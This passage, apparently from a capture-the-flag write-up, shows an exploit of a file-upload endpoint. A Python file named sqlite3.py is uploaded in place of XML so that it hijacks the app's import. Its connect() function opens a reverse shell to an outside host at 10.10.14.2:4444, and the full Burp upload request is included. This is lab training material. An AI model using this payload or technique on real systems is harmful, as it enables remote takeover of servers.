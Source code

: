 And we can upload this file as XML because , it is checking extensions , or validating contents . It is saving first and try to parse later . So the file is being saved . So there is a shot this could work . Let's see

Created sqlite3.py file
```python
import socket
import subprocess
import os
import pty

def connect(DB_NAME):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.14.2", 4444))
        os.dup2(s.fileno(), 0)
        os.dup2(s.fileno(), 1)
        os.dup2(s.fileno(), 2)
        pty.spawn("/bin/bash")
```

Since the connect function in app.py is sending param , I've added dummy function parameter which doesn't do anything

Now uploading the file in the XML file upload dialog box . Intercepting the Burp request
And we see this request 

```req
POST /convert HTTP/1.1
Host: REDACTED.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------283673540533284347091909558362
Content-Length: 12705
Origin: http://REDACTED.htb
Connection: keep-alive
Referer: http://REDACTED.htb/
Cookie: session=eyJ1c2VyX2lkIjo3LCJ1c2VybmFtZSI6ImhhaGEifQ.aQBdgw.lV19xpSponin_JeXF3FBaerPfw0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------283673540533284347091909558362
Content-Disposition: form-data; name="xml_file"; filename="sqlite3.py"
Content-Type: text/x-python

import socket
import subprocess
import os
import pty

def connect(DB_NAME):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.10.14.2", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	pty.spawn("/bin/bash")


-----------------------------283673540533284347091909558362
```
